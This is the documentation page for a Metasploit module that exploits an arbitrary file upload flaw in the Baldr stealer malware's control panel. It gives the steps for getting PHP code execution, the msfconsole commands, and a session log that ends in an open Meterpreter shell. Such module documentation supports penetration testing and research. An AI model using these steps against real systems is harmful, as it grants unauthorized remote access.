 ## Vulnerable Application

### Description

This module exploits an arbitrary file upload vulnerability within the Baldr
stealer malware control panel when uploading victim log files (which are uploaded 
as ZIP files). Attackers can turn this vulnerability into an RCE by first 
registering a new bot to the panel and then uploading a ZIP file containing
malicious PHP, which will then uploaded to a publicly accessible
directory underneath the /logs web directory.

Note that on versions 3.0 and 3.1 the ZIP files containing the victim log files
are encoded by XORing them with a random 4 byte key. This exploit module gets around
this restriction by retrieving the IP specific XOR key from panel gate before
uploading the malicious ZIP file.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/baldr_upload_exec`
  4. Do `set rhost 192.168.1.27`
  4. Do: `check`
```
[*] Baldr Version: <= v2.0
[+] 192.168.1.27:80 - The target is vulnerable.
```

## Targets

```
Exploit targets:

   Id  Name
   --  ----
   0   Auto
   1   <= v2.0
   2   v2.2
   3   v3.0 & v3.1
```


## Scenarios
```
msf5 > use exploit/multi/http/baldr_upload_exec 
msf5 exploit(exploit/multi/http/baldr_upload_exec) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 exploit(multi/http/baldr_upload_exec) > run

[*] Baldr Version: <= v2.0
[+] Payload uploaded to /logs/FJETBHLL/.vatw.php
[+] Payload successfully triggered !
[*] Started bind TCP handler against 192.168.1.27:9090
[*] Sending stage (38288 bytes) to 192.168.1.27
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.1.27:9090) at 2020-07-23 09:49:34 +0300

meterpreter > 
```